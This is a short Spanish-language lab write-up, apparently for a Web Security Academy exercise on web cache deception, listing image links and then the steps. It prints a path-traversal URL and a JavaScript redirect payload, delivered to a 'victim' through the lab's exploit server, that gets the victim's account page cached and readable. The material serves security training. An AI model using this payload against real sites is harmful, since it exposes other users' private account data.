









## LAB



Al ingresar usando las credenciales proporcionadas vemos en las respuestas que no se tiene el recurso en cache.



Al revisar las solicitudes al servidor vemos que el apartado de `resourses` tiene almacenado la cache.



Al realizar un path traversal podemos redirigir a la ruta `/my account` y ver el panel del usuario.





Teniendo en cuenta esto, podemos enviar a la victima mediante el exploit server

```c
/resources/../my-account?pwned
```

```c
<script>
document.location="https://0a5c00f7034666c985bcf3db006b00d6.web-security-academy.net/resources/../my-account?pwned"
</script>
```



Al guardar y entregar a la victima vemos que afectamente se almaceno en la cache

```c
https://0a5c00f7034666c985bcf3db006b00d6.web-security-academy.net/resources/..%2fmy-account?pwned
```






